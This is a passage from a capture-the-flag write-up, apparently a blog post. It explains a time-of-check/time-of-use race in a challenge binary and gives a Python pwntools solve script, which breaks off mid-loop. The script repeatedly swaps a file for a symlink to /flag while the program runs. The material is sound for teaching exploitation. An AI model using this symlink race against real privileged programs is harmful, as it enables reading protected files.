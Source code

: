 
Full compiler protections are enabled on the binary.

```bash
ctf@5496255810ec:~$ checksec --file challenge 

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So how could this program be exploited? Well, the file information is retrieved at step 5, but the symlink check happens on step 7, and the file is opened at step 8. In between, text is printed to the screen and various other commands are run. Input/Output such as writing to stdout is very slow, and so as an attacker, there is a small window of opportunity where we could change something to trick the program into doing something unintended. This is the Time-of-Check, Time-of-Use.

Consider this, we create an empty file `s` and supply it as the argument for the challenge binary. The binary then calls lstat on `s`, and then uses that information to check its not symlink, but between `lstat` and when the program calls `open` on the file, we change `s` to actually be a symlink to `/flag`. At Time-of-Check, the supplied file passes all the checks, but at Time-of-Use, the file is a symlink allowing us to read the flag. Obviously this is a tiny window of opportunity, hence why we call it a race condition. We will need to program some automation to change the file state very quickly. 

### Exploitation

There is no single solution to most race conditions, we can use anything that comes to mind in order to increase the window of opportunity (such as using directory mazes), or to speed up the attacker side of the race. In my solution, I fork a Python program, one thread repeatedly runs the program, supplying `s` as the argument, the other repeatedly switches between `s` being an empty file and being a symlink to `/flag`.

It's worth noting that this script is pretty janky. For example the child process that is swapping the files will continue even after the parent has closed. But for challenge 1 it's enough to get the flag. The solve script is below.

```python
#! /usr/bin/python3
import os 
from pwn import *

def step1():
    os.unlink("s")
    os.close(os.open("s", os.O_CREAT))
def step2():
    os.unlink("s")
    os.symlink("/flag", "s")

if __name__ == "__main__":

    attempts = 0
    if os.fork() == 0:
        forkPID = os.getpid()
        os.close(os.open("s", os.O_CREAT))
        while True:
            step1()
            step2()

    else:
        while True:
            attempts += 1 
            p = process(["challenge", "s"], level="CRITICAL")
            result = (p.readall().decode())
            if "cueh" in result:
```